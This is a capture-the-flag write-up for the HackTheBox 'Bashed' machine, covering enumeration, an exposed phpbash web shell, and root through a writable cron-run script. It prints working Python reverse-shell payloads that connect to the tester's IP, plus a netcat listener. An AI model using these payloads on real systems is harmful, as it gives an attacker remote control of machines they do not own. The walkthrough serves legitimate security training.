 # HTB: Bashed

## Engagement Overview

**Target:** Bashed (HTB)  
**Box IP:** 10.10.10.68  
**Date:** 2025-07-06  

---

### Objectives

- Enumerate open services and directories  
- Gain initial foothold via exposed web shell  
- Escalate to user and root  
- Capture user and root flags  

---

## Service Enumeration

### Nmap

```bash
nmap -sC -sV -oN nmap.txt 10.10.10.68
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

- Web page title: *Arrexel's Development Site*

### Directory Enumeration

```bash
dirbuster -u http://10.10.10.68 -w /usr/share/wordlists/dirb/common.txt
```

- `/dev/phpbash.min.php`  
- `/dev/phpbash.php`  
- `/uploads/`  

---

## Initial Access

Accessing the exposed shell at:

```
http://10.10.10.68/dev/phpbash.php
```

Confirmed `www-data`:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Reverse Shell

```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.2",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

Upgraded shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

`www-data` has `sudo` access to run commands as `scriptmanager` without password:

```
(ALL : ALL) NOPASSWD: ALL
```

Switched to `scriptmanager`, found writable `/scripts/` directory:  

```
-rw-r--r-- 1 scriptmanager scriptmanager test.py
-rw-r--r-- 1 root          root          test.txt
```

`test.txt` overwritten by cron → root executes `test.py`.  

### Root via Cron

Replaced `test.py` with reverse shell payload:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.2",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Caught root shell with netcat listener:  

```bash
nc -lvnp 1337
```

---

## House Cleaning

**Flags:**  

- `user.txt`: `501893517418a7460a6f616a86f3fd82`  
- `root.txt`: `25a9eb38a763d8a0f04af9a3fc390ee7`  

- Removed malicious `test.py` after escalation.  
- No persistence left on target.  

---

## Tools Utilized

- `nmap`, `dirbuster`  
- Python reverse shell  
- `/dev/phpbash.php` interactive shell  
- `linuxprivchecker`  

References:  

- https://github.com/sleventyeleven/linuxprivchecker  
- https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2  

---

## Key Takeaways

- Dev artifacts like `phpbash.php` can provide immediate shells.  
- Python reverse shells + TTY upgrades are critical for stability.  
- Cron jobs with writable scripts enable easy privilege escalation.  
- `sudo` misconfigurations with secondary users (e.g. `scriptmanager`) are dangerous and should be audited.  